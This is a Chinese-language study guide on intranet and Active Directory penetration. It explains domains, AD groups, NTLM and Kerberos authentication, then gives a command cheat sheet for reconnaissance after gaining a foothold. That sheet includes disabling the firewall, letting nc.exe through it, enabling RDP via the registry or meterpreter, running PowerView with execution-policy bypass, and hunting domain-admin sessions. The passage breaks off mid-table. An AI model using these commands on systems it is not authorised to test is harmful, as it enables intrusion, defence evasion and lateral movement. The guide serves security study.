# 内网安全学习

## 一、基础知识

### 内网概述

```
	内网也指局域网（Local Area Network ， LAN）是指在某一区域内由多台计算机互联成的计算机组。一般是方圆几千米以内。局域网可以实现文件管理、应用软件共享、打印机共享、工作组内的历程安排、电子邮件和传真通信服务等功能。内网是封闭型的，它可以由办公室内的两台计算机组成，也可以由一个公司内的上千台计算机组成。列如银行、学校、企业工厂、政府机关、网吧、单位办公网等都属于此类。
```

### 工作组

```
	工作组（ Work Group ）， 在一个大的单位内，可能有成百上千台电脑互相连接组成局域网，它们都会列在“网络（网上邻居）”内，如果这些电脑不分组，可想而知有多么混乱，要找一台电脑很困难。为了解决这一问题，就有了“工作组”这个概念，将不同的电脑一般按功能（或部门）分别列入不同的工作组中，如技术部的电脑都列入“技术部”工作组中，行政部的电脑都列入“行政部”工作组中。你要访问某个部门的资源，就在“网络”里找到那个部门的工作组名，双击就可以看到那个部门的所有电脑了。相比不分组的情况就有序的多了，尤其是对于大型局域网络来说。
```

### 域

```
	域的英文名叫DOMAIN，域是Windows网络中独立运行的单位，将网络中多台计算机逻辑上组织到一起，进行集中管理，这种区别于工作组的逻辑环境叫做域。
```

### 单域

```
	在一般的具有固定地理位置的小公司里，建立一个域就可以满足所需。一般在一个域内要建立至少两个域服务器，一个作为DC，一个是备份DC。如果没有第二个备份DC，那么一旦DC瘫痪了，则域内的其他用户就不能登陆该域了，因为活动目录的数据库（包括用户的帐号信息）是存储在DC中的。而有一台备份域控制器（BDC），则至少该域还能正常使用，期间把瘫痪的DC恢复了就行了。
```

### 父域和子域

```
	出于管理及其他一些需求，需要在网络中划分多个域，第一个域称为父域 ，各分部的域称为该域的子域 。比如一个大公司，它的不同分公司在不同的地理位置，则需父域及子域这样的结构。如果把不同地理位置的分公司放在同一个域内，那么他们之间信息交互（包括同步，复制等）所花费的时间会比较长，而且占用的带宽也比较大。（因为在同一个域内，信息交互的条目是很多的，而且不压缩；而在域和域之间，信息交互的条目相对较少，而且压缩。）还有一个好处，就是子公司可以通过自己的域来管理自己的资源。还有一种情况，就是出于安全策略的考虑，因为每个域都有自己独有的安全策略。比如一个公司的财务部门希望能使用特定的安全策略（包括帐号密码策略等），那么可以将财务部门做成一个子域来单独管理。
```

### 域树

```
	域树 指若干个域通过建立信任关系组成的集合。一个域管理员只能管理本域的内部，不能访问或者管理其他的域，二个域之间相互访问则需要建立信任关系 (Trust Relation)。信任关系是连接在域与域之间的桥梁。域树内的父域与子域之间不但可以按需要相互进行管理，还可以跨网分配文件和打印机等设备资源，使不同的域之间实现网络资源的共享与管理，以及相互通信和数据传输。在一个域树中，父域可以包含很多子域，子域是相对父域来说的，指域名中的每一个段。子域只能使用父域作为域名的后缀，也就是说在一个域树中，域的名字是连续的。
```

### 域森林

```
	域森林指若干个域树通过建立信任关系组成的集合。可以通过域树之间建立的信任关系来管理和使用整个森林中的资源，从而又保持了原有域自身原有的特性
```

### 域控制器

```
	域控制器是一个域中的一台类似管理服务器的计算机，是整个域的通信枢纽，所有的权限身份验证都在域控制器上进行，即域内所有用来验证过身份的账号和密码散列值都保存在域控制器中。当计算机连接到域时，域控制器首先要鉴别这台计算机是否属于这个域，以及用户使用的登陆账号是否存在、密码是否正确。若以上信息不正确则拒绝这台计算机的登陆，进而不能访问服务器中的资源。
```

### 域信任

```
	如果母公司下有个域A，子公司下有个域B，双方需要联系起来，就可以在它们之间建立一种信任关系（Trust）。母公司域A需要登录到子公司域B中，域B就要对域A建立信任关系。关系建立后，域A账户登录到域B，域B会听从域A中返回的access key。域信任是渗透到其他域中的关键。
```

### 活动目录

```
	活动目录（ Active Directory ） 是域环境中提供目录服务的组件。活动目录（AD）和工作组是基于WINDOWS的局域网中两种不同的网络管理模式。工作组以计算机为管理单元，各计算机管理员身份的用户在资源共享上具有完全自主。一般小型网络采取这种组建模式的居多。活动目录是大中型网络的管理模式，是典型的以用户为单位的管理模式。目录是什么？目录就是存储有关网络对象（如用户、组、计算机、共享资源、打印机和联系人等）的信息。目录服务是帮助用户快速准确的从目录中查找到他所需要的信息的服务。如果将企业的内网看成是一本字典，那么内网里的资源就是字典的内容， 活动目录就相当字典的索引。即活动目录存储的是网络中所有资源的快捷方式，用户通过寻找快捷方式而定位资源。
```

**活动目录功能**

- 服务器及客户端计算机管理
- 用户服务
- 资源管理
- 桌面配置
- 应用系统支撑

### 域内权限解读

#### 域本地组

```
	域本地组，多域用户访问单域资源（访问同一个域）。可以从任何域添加用户账户、通用组和全局组，只能在其所在域内指派权限。域本地组不能嵌套于其他组中。它主要是用于授予位于本域资源的访问权限。
```

#### 全局组

```
  单域用户访问多域资源（必须是同一个域里面的用户）。只能在创建该全局组的域上进行添加用户和全局组，可以在域林中的任何域中指派权限，全局组可以嵌套在其他组中
```

#### 通用组

```
  通用组，通用组成员来自域林中任何域中的用户账户、全局组和其他的通用组，可以在该域林中的任何域中指派权限，可以嵌套于其他域组中。非常适于域林中的跨域访问。
```

### 域本地组权限

#### **本地域组的权限**

* Administrators（管理员组）的成员可以不受限制地存储计算机/域的资源。它不仅是最具权利的一个组，也是活动目录和域控制器中默认具有管理员权限的组。该组的成员可以更改为Enterprise Admins、Schema Admins和Domain Users组的成员关系，是域森林中最强大的服务管理员

* Remote Desktop Users（远程登录组）的成员具有远程登录权

* Print Operators（打印机操作员组）的成员可以管理网络打印机，包括建立、管理及删除网络打印机，并可以在本地登录和关闭域控制器

  Account Operators（帐号操作员组）的成员可以创建和管理该域中的用户和组并为其设置权限，也可以在本地登录域控制器，但是，不能更改属于administrator和Domain adminis组的账号、也不能修改这些组。在默认情况下，该组中没有成员。

* Server Operaters（服务器操作员组）的成员可以管理域服务器，其权限包括建立/管理/删除任意服务器的共享目录、管理网络打印机、备份任务服务器的文件、格式化服务器硬盘、锁定服务器、变更服务器时间、关闭域控制器等。在默认情况下，该组没有成员。

* Backup Operators（备份操作员组）的成员可以在域控制器中执行备份和还原，并可以在本地登录和关闭服务器。在默认情况下，该组没有成员

#### 全局组、通用组的权限

* Domain Admins（域管理员组）成员所有加入域的服务器（工作站）、域控制器和活动目录中均默认拥有完整的管理员权限。因为该组会被添加到自己所在域的Administrator组中，因此可以继承administrator组所有权限。同时，该组默认会添加到每天域成员计算机的本地administrator组中，这样，Domain Admins组就可以获得了域中所有计算机的所有权。如果希望某用户成为域系统管理员，建议将该用户添加到Domain admins组中，而不要直接将该用户添加到administrator组中。
* Enterprise Admins（企业系统管理员组）是域森林根域中的一个组。该组在域森林中的每个域内都是administrator组的成员，因此对所有域控制器独有完全访问权。
* Schema Admins（架构管理员组）是域森林根域中的一个组，可以修改活动目录和域森林的模式。该组是为了活动目录和域控制器提供了完整权限的域用户组，因此，该组成员的资格但是非常重要的
* Domain Users（域用户组）中是所有的域成员。在默认情况下，任何由我们建立的用户账号都属于domain user组，而任何由我们建立的计算机账号都属于DOmain Computer。因此，如果想让所有的账号都获得某种资源的存取权限，可以将该权限组指定给域用户组，或者让域用户组属于具有该权限的组。域用户默认是内置User组的成员

### SAM

```
	SAM(安全账户管理器)，SAM是用来存储Windows操作系统密码的数据库文件，为了避免明文密码泄漏，SAM文件中保存的是明文密码经过一系列算法处理过的Hash值，被保存的Hash分为LM Hash、NTLMHash。在用户在本地或远程登陆系统时，会将Hash值与SAM文件中保存的Hash值进行对比。在后期的Windows系统中，SAM文件中被保存的密码Hash都被密钥SYSKEY加密。
	SAM文件在磁盘中的位置在C:\windows\system32\config\sam SAM文件在Windows系统启动后被系统锁定，无法进行移动和复制
```

### Windows Hash

#### Windows系统的Hash密码格式

```
Windows系统下的hash密码格式为：用户名称:RID:LM-HASH值:NT-HASH值
例如：
Administrator:500:C8825DB10F2590EAAAD3B435B51404EE:6542d35ed5ff6ae5e75b875068c5d3bc:::
表示:
用户名称为：Administrator
RID为：500
LM-HASH值为：C8825DB10F2590EAAAD3B435B51404EE
NT-HASH值为：6542d35ed5ff6ae5e75b875068c5d3bc
```

#### Windows下LM Hash值生成原理

```
	假设我们现在有的明文：welcome，首先Windows会将密码转换成大写Welcome，密码转换为16进制字符串，不足14字节将会用0来再后面补全。密码的16进制字符串被分成两个7byte部分。每部分转换成比特流，并且长度位56bit，长度不足用0在左边补齐长度，再分7bit为一组,每组末尾加 0，再组成一组，将得到的二组，分别作为key为KGS!@#$%进行DES加密。将加密后的两组拼接在一起，得到最终LM HASH值。
```

#### Windows下NTLM Hash生成原理

```
	现假设明文口令为test，首先先将密码转换为十六进制格式，然后进行Unicode编码，而且不需要对编码结果进行填0补足14字节，之后对unicode编码进行MD4单向hash，产生128比特的哈希，这个hash值就会作为最后的NTLM hash。与LM hash相比，NTLM hash对大小写敏感，并摆脱了对魔术字符串的依赖，NTLM是LM和NT的结合，用于本地用户身份认证。
```

参考文章：https://cloud.tencent.com/developer/article/1765592

### Windows认证

#### NTLM身份认证

```
	Windows 的 NTLM 认证就是利用 NTLM Hash 进行的认证，可以分为本地认证和网络认证两种方式。NTLM 的网络认证，既可用于域内的认证服务，又可用于工作组环境。NTLM 有 NTLMv1 、NTLMv2 、NTLMsession v2 三个版本，目前使用最多的是NTLMv2版本。
```

##### NTLM 本地认证

```
	当用户在 Windows 本地登录时，用户的密码存储在本地计算机的 SAM 这个文件里，SAM 文件的路径为%SystemRoot%\system32\config\SAM。用户通过winlogon.exe输入密码后，会将密码交给lsass进程。lsass.exe是一个系统进程，用于微软Windows系统的安全机制。它用于本地安全和登陆策略，这个进程中会存一份明文密码，将明文密码加密成 NTLM Hash，对SAM数据库比较认证。
```

**认证过程：**

```
winlogon.exe -> 接收用户输入用户名密码 -> lsass进程将密码进行NTLM Hash加密 -> 与SAM文件比较认证
```

1. 当刚开机、注销等操作后，winlogon.exe 进程会显示一个登录界面要求输入用户名和密码。
2. 输入用户名和密码后，会被 winlogon.exe 获取，然后将其发送给 lsass.exe 进程。
3. lsass.exe 将明文密码计算得到 NT Hash（不考虑LM）。
4. 之后会将用户名和计算得到的 NT Hash 拿到 SAM 数据库去查找比对。



- Windows Logon Process(即 winlogon.exe)，是Windows NT 用户登陆程序，用于管理用户登录和退出。
- LSASS 用于微软 Windows 系统的安全机制。用于本地安全和登陆策略。

##### NTLM 在工作组环境中的认证

```
	NTLM在网络环境中的认证采用的是一种 Challenge/Response验证机制，由协议、质询、身份验证三种消息组成
```


**认证过程：**

（1）首先，如果客户端需要访问服务器的某个服务是需要进行身份认证的。于是，客户端要输入服务器的用户名和密码进行验证，此时客户端本地会缓存一份服务器密码的 NTLM Hash 值。客户端发送 **TYPE 1 Negotiate** 协商消息去协商需要认证的主体，用户（服务器端的用户名），机器以及需要使用的安全服务等信息。

（2）服务端接收到客户端发送过来的 TYPE 1 消息后，会读取其中的内容，并从中选择出自己所能接受的服务内容，加密等级，安全服务等。然后传入 NTLM SSP，得到 **TYPE 2 Challenge** 消息（被称为 Challenge 挑战消息），并将此 TYPE 2 消息发回给客户端。这个 TYPE 2 消息中包含了一个由服务端生成的16位随机值，此随机值被称为 Challenge，服务器也会将该 Challenge 保存起来。

（3）客户端收到服务端返回的 TYPE 2 消息后， 会读取出服务端所支持的内容，并取出其中的随机值 Challenge，用缓存的服务器端密码的 NTLM-Hash 对其进行加密，并与用户名、Challenge 等一起组合得到 **Net-NTLMHash**，最后将 **Net NTLM-Hash** 封装到 **TYPE 3 Authenticate** 消息中（被称为 Authenticate 认证消息），发往服务端。

（4）服务器在收到 TYPE 3 的消息之后，用自己的密码的 NTLM-Hash 对 Challenge 进行加密，并比较自己计算出的 Net NTLM-Hash 认证消息和客户端发送的认证消息是否匹配。如果匹配，则证明客户端掌握了正确的密码，认证成功，否则认证失败。

##### NTLM 在域环境中的认证



（1）首先，如果客户端需要访问服务器的某个服务是需要进行身份认证的。于是，客户端要输入服务器的用户名和密码进行验证，此时客户端本地会缓存一份服务器密码的 NTLM Hash 值。客户端发送 **TYPE 1 Negotiate** 协商消息去协商需要认证的主体，用户（服务器端的用户名），机器以及需要使用的安全服务等信息。

（2）服务端接收到客户端发送过来的 TYPE 1 消息后，会读取其中的内容，并从中选择出自己所能接受的服务内容，加密等级，安全服务等。然后传入 NTLM SSP，得到 **TYPE 2 Challenge** 消息（被称为 Challenge 挑战消息），并将此 TYPE 2 消息发回给客户端。这个 TYPE 2 消息中包含了一个由服务端生成的16位随机值，此随机值被称为 Challenge，服务器也会将该 Challenge 保存起来。

（3）客户端收到服务端返回的 TYPE 2 消息后， 会读取出服务端所支持的内容，并取出其中的随机值 Challenge，用缓存的服务器端密码的 NTLM-Hash 对其进行加密，并与用户名、Challenge 等一起组合得到 **Net-NTLMHash**，最后将 **Net NTLM-Hash** 封装到 **TYPE 3 Authenticate** 消息中（被称为 Authenticate 认证消息），发往服务端。

（4）服务器接收到客户端发送来的 **TYPE 3** 消息后，取出其中的 **Net NTLM-Hash** 值，并向域控制器发送针对客户端的验证请求。该请求主要包含以下三方面的内容：用户名（服务器端的用户名）、原始的 Challenge 和 加密后的 Challenge（即Net NTLM-Hash）。

（5）然后域控制器会根据用户名获取该帐号的密码哈希值 NTLM Hash，用哈希值对原始的 Challenge 进行加密得到 **Net NTLM-Hash** 。如果加密后的 Challenge 和服务器发送的一致，则意味着用户拥有正确的密码，验证通过，否则验证失败。并将验证结果发给服务器。

（6）服务器根据域控制器返回的结果，对客户端进行回复。

参考文章：https://www.icode9.com/content-4-976097.html

#### Kerberos认证

```
  Kerberos是一种由 MIT（麻省理工大学）提出的一种网络身份验证协议。它旨在通过使用密钥加密技术为客户端/服务器应用程序提供强身份验证。
  在 Kerberos 认证中，最主要的问题是如何证明「你是你」的问题，如当一个 Client 去访问 Server 服务器上的某服务时，Server 如何判断 Client 是否有权限来访问自己主机上的服务，同时保证在这个过程中的通讯内容即使被拦截或篡改也不影响通讯的安全性，这正是 Kerberos 解决的问题。在域渗透过程中 Kerberos 协议的攻防也是很重要的存在。
  Kerberos主要是用在域环境下的身份认证协议。
```

##### Kerberos 协议框架

在 Kerberos 协议中主要是有三个角色的存在：

1.访问服务的 Client；

2.提供服务的 Server；

3.KDC（Key Distribution Center）密钥分发中心。

其中 KDC 服务默认会安装在一个域的域控中，而 Client 和 Server 为域内的用户或者是服务，如 HTTP 服务，SQL 服务。在 Kerberos 中 Client 是否有权限访问 Server 端的服务由 KDC 发放的票据来决定。


如果把 Kerberos 中的票据类比为一张火车票，那么 Client 端就是乘客，Server 端就是火车，而 KDC 就是就是车站的认证系统。如果 Client 端的票据是合法的（由你本人身份证购买并由你本人持有）同时有访问 Server 端服务的权限（车票对应车次正确）那么你才能上车。当然和火车票不一样的是 Kerberos 中有存在两张票，而火车票从头到尾只有一张。

由上图中可以看到 KDC 又分为两个部分：

**Authentication Server**：AS 的作用就是验证 Client 端的身份（确定你是身份证上的本人），验证通过就会给一张 TGT（Ticket Granting Ticket）票给 Client。

**Ticket Granting Server**：TGS 的作用是通过 AS 发送给 Client 的票（TGT）换取访问 Server 端的票（上车的票 ST）。ST（ServiceTicket）也有资料称为 TGS Ticket，为了和 TGS 区分，在这里就用 ST 来说明。



KDC 服务框架中包含一个 KRBTGT 账户，它是在创建域时系统自动创建的一个账号，你可以暂时理解为他就是一个无法登陆的账号，在发放票据时会使用到它的密码 HASH 值。



##### Kerberos 认证流程

当 Client 想要访问 Server 上的某个服务时，需要先向 AS 证明自己的身份，然后通过 AS 发放的 TGT 向 Server 发起认证请求，这个过程分为三块：

**The Authentication Service Exchange**：Client 与 AS 的交互；

**The Ticket-Granting Service (TGS) Exchange**：Client 与 TGS 的交互；

**The Client/Server Authentication Exchange**：Client 与 Server 的交互。



**(1)TheAuthentication Service Exchange**

KRB_AS_REQ

Client->AS：发送 Authenticator1(Client 密码加密 TimeStamp)

第一步 Client 先向 KDC 的 AS 发送 Authenticator1，内容为通过 Client 密码 Hash 加密的时间戳、ClientID、网络地址、加密类型等内容。



KRB_AS_REP

AS-> Client：发送 Client 密码加密的 sessionkey-as 和票据 TGT(KRBTGT HASH 加密的 sessionkey-as 和 TimeStamp)

在 KDC 中存储了域中所有用户的密码 HASH，当 AS 接收到 Client 的请求之后会根据 KDC 中存储的密码来解密，解密成功并且验证信息。验证成功后返回给 Client 由 Client 密码 HASH 加密的 sessionkey-as 和 TGT（由 KRBTGT HASH 加密的 sessionkey-as 和 TimeStamp 等信息）。

**(2)TheTicket-Granting Service (TGS) Exchange**

KRB_TGS_REQ

Client ->TGS 发送 Authenticator2 (sessionkey-as 加密 TimeStamp) 和票据 TGT(KRBTGT HASH 加密的 sessionkey-as 和 TimeStamp)

Client 接收到了加密后的 Sessionkey-as 和 TGT 之后，用自身密码解密得到 Sessionkey-as，TGT 是由 KDC 密码加密，Client 无法解密。这时 Client 再用 Sessionkey-as 加密 TimeStamp 和 TGT 一起发送给 KDC 中的 TGS（TicketGranting Server）票据授权服务器换取能够访问 Server 的票据。



KRB_TGS_REP

TGS-> Client 发送 密文 1(sessionkey-as 加密 sessionkey-tgs) 和 票据 ST(Server 密码 HASH 加密 sessionkey-tgs)

TGS 收到 Client 发送过来的 TGT 和 Sessionkey-as 加密的 TimeStamp 之后，首先会检查自身是否存在 Client 所请求的服务。如果服务存在，则用 KRBTGT 密码解密 TGT。一般情况下 TGS 会检查 TGT 中的时间戳查看 TGT 是否过期，且原始地址是否和 TGT 中保存的地址相同。验证成功之后将用 sessionkey-as 加密的 sessionkey-tgs 和 Server 密码 HASH 加密的 Sessionkey-tgs 发送给 Client。

**(3)TheClient/Server Authentication Exchange**

KRB_AP_REQ

Client ->Server 发送 Authenticator3(sessionkey-tgs 加密 TimeStamp) 和票据 ST(Server 密码 HASH 加密 sessionkey-tgs)

Client 收到 sessionkey-as 加密的 sessionkey-tgs 和 Server 密码 HASH 加密的 sessionkey-tgs 之后用 sessionkey-as 解密得到 sessionkey-tgs，然后把 sessionkey-tgs 加密的 TimeStamp 和 ST 一起发送给 Server。



KRB_AP_REP

Server-> Client

server 通过自己的密码解密 ST，得到 sessionkey-tgs, 再用 sessionkey-tgs 解密 Authenticator3 得到 TimeStamp，验证正确返回验证成功。

以上就行Kerberos的认证流程


##### PAC

在 Kerberos 最初设计的几个流程里说明了如何证明 Client 是 Client 而不是由其他人来冒充的，但并没有声明 Client 有没有访问 Server 服务的权限，因为在域中不同权限的用户能够访问的资源是有区别的。

所以微软为了解决这个问题在实现 Kerberos 时加入了 PAC 的概念，PAC 的全称是 Privilege Attribute Certificate(特权属性证书)。可以理解为火车有一等座，也有二等座，而 PAC 就是为了区别不同权限的一种方式。

(1)PAC 的实现

当用户与 KDC 之间完成了认证过程之后，Client 需要访问 Server 所提供的某项服务时，Server 为了判断用户是否具有合法的权限需要将 Client 的 User SID 等信息传递给 KDC，KDC 通过 SID 判断用户的用户组信息，用户权限等，进而将结果返回给 Server，Server 再将此信息与用户所索取的资源的 ACL 进行比较，最后决定是否给用户提供相应的服务。

PAC 会在 KRB_AS_REP 中 AS 放在 TGT 里加密发送给 Client，然后由 Client 转发给 TGS 来验证 Client 所请求的服务。

在 PAC 中包含有两个数字签名 PAC_SERVER_CHECKSUM 和 PAC_PRIVSVR_CHECKSUM，这两个数字签名分别由 Server 端密码 HASH 和 KDC 的密码 HASH 加密。

同时 TGS 解密之后验证签名是否正确，然后再重新构造新的 PAC 放在 ST 里返回给客户端，客户端将 ST 发送给服务端进行验证。

(2)Server 与 KDC

PAC 可以理解为一串校验信息，为了防止被伪造和串改，原则上是存放在 TGT 里，并且 TGT 由 KDC hash 加密。同时尾部会有两个数字签名，分别由 KDC 密码和 server 密码加密，防止数字签名内容被篡改。


同时 PAC 指定了固定的 User SID 和 Groups ID，还有其他一些时间等信息，Server 的程序收到 ST 之后解密得到 PAC 会将 PAC 的数字签名发送给 KDC，KDC 再进行校验然后将结果已 RPC 返回码的形式返回给 Server。



参考链接：https://www.freebuf.com/articles/system/196434.html


## 二、信息收集

### 主机信息收集

```
	通常我们拿到了内网中的一台机器后，需要判断当前的内网结构是什么样的、其角色是什么、使用这台机器的人的角色是什么，以及这台机器上安装了什么杀毒软件、这台机器是通过什么方式上网的、这台机器是笔记本电脑还是台式机等。接下来我们通过Windows系统命令来收集机器中的操作系统、权限、内网IP地址段、杀毒软件、端口、服务、补丁更新频率、网络连接、共享、会话等信息。
```

**主机信息收集常用命令：**

```
##查看网络配置
ipconfig /all   //windows
ifconfig        //Linux

##查询操作系统及软件的信息
systeminfo   //查看系统信息（系统版本，补丁列表等）补丁信息可以到https://i.hacking8.com/tiquan/网站进行对比，补丁信息对后续提权用
echo %PROCESSOR_ARCHITECTURE%   //查看系统体系结构
wmic product get name,version   //查看安装的软件及版本、路径等

##查询本机服务信息
wmic service list brief   //查询本机服务信息

##查询进程列表
tasklist    //查看进程列表，判断是否安装了杀毒软件 https://maikefee.com/av_list，对后续渗透是否进行免杀用
wmic process list brief   //查看进程信息

##查询启动信息
wmic startup get command,caption   //查看启动程序信息

##查询任务计划
schtasks /query /fo LIST /v   //查看计划任务

##查询开启时间
net statistics workstation   //查看主机开机时间

##查询用户列表
net user   //查询用户列表
net localgroup administators   //获取本地管理员（通常包含域用户）的信息
query user || qwinsta   //查看当前在线用户

##查询会话信息
net session   //列出或断开本地计算机与所连接的客户端之间的会话

##查看本机共享目录
net share    //查询本机共享列表

##查询路由表
route print

##查看arp表
arp -a   //查看ARP表

##查看当前用户
whoami   //查看当前权限
whoami /all   //获取域中SID
net user XXX /domain   //查询域内指定用户详细信息

##判断是否存在域
ipconfig   /all   //通过查看主DNS名称来判断是否存在域
systeminfo   //查看域选项和登录服务器选项来判断是否存在域
net config workstation   //通过工作站域DNS名称和登录域来判断
net time /domain   //判断主域（域服务器通常会同时作为时间服务器使用）

##防火墙相关配置
关闭防火墙
netsh firewall set opmode disable   //windows 2003及之前的版本
netsh advfirewall set allprofiles state off   //windows 2003之后的版本

查看防火墙配置
netsh firewall show config

修改防火墙配置
netsh firewall add allowedprogram c:\nc.exe "allow nc" enable   //windows 2003之前的版本
netsh advfirewall firewall add rule name="pass nc" dir=in  action=allow program="c:\nc.exe"  //windows2003之后版本，允许指定程序进入
netsh advfirewall firewall add rule name="allow nc" dir=out  action=allow program="c:\nc.exe"  //windows2003之后版本，允许指定程序退出
netsh advfirewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow  //windows2003之后版本，允许3389端口放行

##查询并开启远程连接服务
查看远程连接端口
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v "PortNumber"

windows 2003开启3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
或
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
windows 2008版本以后开启3389端口
REG ADD "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMAINAL SERVER" /v fsingleSessionPerUser /t REG_DWORD /d 0 /f

如果已经获取到meterpreter会话，可以使用以下命令开启3389端口
run getgui -e
run post/windows/manage/enable_rdp
```

### 域信息收集

```
	确定了内网拥有的域，且所控制的主机在域内，就可以进行域内相关信息收集了。本次介绍的查询命令在本质上都是通过LDAP协议到域控制器上进行查询的，所以在查询是需要进行权限认证。只有域用户才拥有此权限，本地用户无法运行本次介绍的命令（system用户除外）。
```

#### 域信息收集常用命令

```
net time /domain                            #查看时间服务器
net config workstation                      #查询当前登录域及登录用户信息
net user /domain                            #查询域内用户
wmic useraccount get /all                   #查询域内用户的详细信息
net user god /domain                        #查看指定域用户zzx的详细信息
net view /domain                            #查看有几个域
net view /domain:xxx                        #查看域内的主机
net group /domain                           #查看域里面的组
net group "domain users"  /domain           #查看域用户
net group "domain controllers" /domain      #查看域控制器
net group "domain computers" /domain        #查看域内所有的主机
net group "domain admins"  /domain          #查看域管理员,该组内的成员对域控拥有完全控制权
net group "enterprise admins" /domain       #查看企业管理组,该组内的成员对域控拥有完全控制权
net group "domain guest"  /domain           #查看域访客组,权限较低
setspn -T domain -q */*   					#spn扫描
nltest  /domain_trusts                      #查看域信任信息
net accounts /domain                        #查询域密码策略
whoami /user								#查看用户SID和域SID

以下命令只能在域控上查询
dsquery user                                #查询目录中的用户
dsquery computer                            #查询目录中的主机
dsquery group                               #查询目录中的组.
dsquery ou                                  #查询目录中的组织单元.
dsquery site                                #查询目录中的站点
dsquery server                              #查询域控
dsquery contact                             #查询目录中的联系人
dsquery subnet                              #查询目录中的子网
dsquery quota                               #查询目录中的配额规定.
dsquery partition                           #查询目录中的分区.
dsquery *                                   #用通用的LDAP查询来查找目录中的任何对 
dsquery server –domain god.com | dsget server–dnsname –site     #搜索域内域控制器的DNS主机名和站点名
dsquery computer domainroot –name -xp –limit 10      #搜索域内以-xp结尾的机器10台
dsquery user domainroot –name admin -limit           #搜索域内以admin开头的用户10个
```

#### 定位域控服务器

```
方法一：net group "domain controllers" /domain      #通过查看Domain Controllers组来定位DC
方法二：nltest /DCLIST:god.com						#通过nltest命令定位DCC
方法三：net time /domain 							#通过查看时间服务器来判断，一般情况下时间服务器都为DC
方法四：nslookup -type=srv _ldap._tcp				#通过DNS记录定位DC
方法五：netdom query pdc						    #查看主控制器
方法六：ipconfig /all                               #通过DNS地址来定位DC，一般DNS服务器都为DC
方法七：netview.exe工具查看域管理员组，根据返回的DC名称来定位
```

#### 定位域管理员

```
定位域内管理员的两种渠道：日志和会话。
日志是指本地机器的管理员日志，可以使用脚本或Wevtutil工具导出并查看。
会话是指域内每台机器的登陆会话，可以使用netsess.exe或PowerView等工具查询（可以匿名查询，不需要权限）。
```

##### psloggedon.exe 

此工具用于查看本地登录的用户和通过本地计算机或远程计算机资源登录的用户

下载地址：https://docs.microso.com/enus/sysinternals/downloads/psloggedon 

| 参数            | 描述                                       |
| :-------------- | :----------------------------------------- |
| -               | 显示支持的选项和用于输出值的度量单位       |
| -l              | 仅显示本地登录，而不显示本地和网络资源登录 |
| -x              | 不显示登录时间                             |
| \\\computername | 指定要为其列出登录信息的计算机的名称       |
| username        | 指定用户名，在网络中搜索该用户登陆的计算机 |

**使用方法：**

```
PsLoggedon64.exe \\WIN-2I68KJFQ1U4.zzx.com	 	//列出域控登录信息
```



##### PVEFindADUser.exe 

可⽤于查找活动⽬录⽤户登陆的位置、枚举域⽤户、以及查找 在特定计算机上登陆的⽤户。 

下载地址：https://github.com/chrisdee/Tools/tree/master/AD/ADFindUsersLoggedOn

| 参数                  | 描述                                                         |
| :-------------------- | :----------------------------------------------------------- |
| -h                    | 显示帮助信息                                                 |
| -u                    | 检测程序是否有新版本                                         |
| -current ["username"] | -current参数显示每台PC上当前登录的用户在域中。如果指定用户名（在引号之间），则仅将显示该特定用户登录的PC |
| -noping               | 阻止尝试枚举用户登录名之前对目标计算机执行ping命令           |
| -target               | 此可选参数允许您指定要查询的主机。如果未指定此-target参数，则将查询当前域中的所有主机。如果决定指定-target，然后指定以逗号分隔的主机名。查询结果将被输出到report.csv文件中 |

**使用方法：**

**显示域中所有计算机上当前登陆的所有用户**

```
PVEFindADUser.exe -current
```



**查询指定用户当前登录的主机**

```
PVEFindADUser.exe -current zzx\administrator
```



**查询指定主机当前登录的用户**

```
PVEFindADUser.exe -current -target WIN-2I68KJFQ1U4.zzx.com
```



##### PowerView脚本

powerView.ps1是一款依赖powershell和wmi对内网进行查询的常用渗透测试脚本，集成在powersploit工具包中，是一个收集域信息很好用的脚本。

下载地址：https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView

常用脚本：

* **Invoke-StealthUserHunter**

  只要一个查询就可以获取域内所有用户, 从**user.HomeDirectories**提取所有用户, 并且会对每个服务器进行**Get-NetSessions** 获取**。**因为无需使用 **Invoke-UserHunter**对每台机器操作，这个办法的隐蔽性就更高一点，但是涉及到的机器面不一定那么全。我们一般默认使用**Invoke-StealthUserHunter** ，除非找不到我们所需，才回去使用**Invoke-UserHunter**方法**。**

* **Invoke-UserHunter** 

  找到域内特定用户群。接受用户名，用户列表，或域组查询，并接受一个主机列表或查询可用的主机域名。它会使用 **Get-NetSessions**和

  **Get-NetLoggedon(调用[NetSessionEnum API)** 对每个服务器跑一遍而且会比较结果筛选出目标用户集，在使用时不需要管理员权限的。

**使用方法：**

**将powerView.ps1脚本下载保存到本地中，导入脚本查询域管理员的登录位置信息**

```
powershell.exe -exec bypass -Command "& {Import-Module C:\PowerView.ps1; Invoke-UserHunter}"
```



**更多PowerView命令参数：**

	Get-NetDomain: 获取当前⽤户所在域名称 
	Get-NetUser:获取所有⽤户的详细信息 
	Get-NetDomainController：获取所有域控制器的信息 
	Get-NetComputer：获取域内所有机器的详细信息 
	Get-NetOU：获取域内的OU信息 
	Get-NetGroup：获取所有域内组和组成员的信息 
	Get-NetFileServer：根据SPN获取域内使⽤的⽂件服务器信息 	  Get-NetShare：获取域内所有的⽹络共享信息 
	Get-NetSession：获取指定服务器的会话 
	Get-Netprocess：获取远程主机的进程
	Get-UserEvent：获取指定⽤户的⽇志 
	Get-ADObject：获取活动⽬录对象 
	Get-DomainPolicy：获取域默认策略或域控制器策略 
	Invoke-UserHuter：获取域⽤户登陆的计算机信息及该⽤户是否有本地管理员权限 
	Invoke-ProcessHunter：通过查询域内所有机器进程找到特定⽤户 
	Invoke-userEventHunter：根据⽤户⽇志查询某域⽤户登陆过哪些域机器 

##### netview.exe

下载地址：https://github.com/mubix/netview

Netview是枚举工具，使用WinAPI枚举系统，利用NetSessionEnum找寻登陆会话，利用NetShareEnum找寻共享，利用NetWkstaUserEnum枚举登陆用户。同时，netview.exe能够查询共享入口和有价值的用户。netview.exe的绝大多数功能不需要管理员权限。

| 参数            | 描述                                                 |
| :-------------- | :--------------------------------------------------- |
| -h              | 显示帮助菜单                                         |
| -f filename.txt | 指定一个文件从中提取主机列表                         |
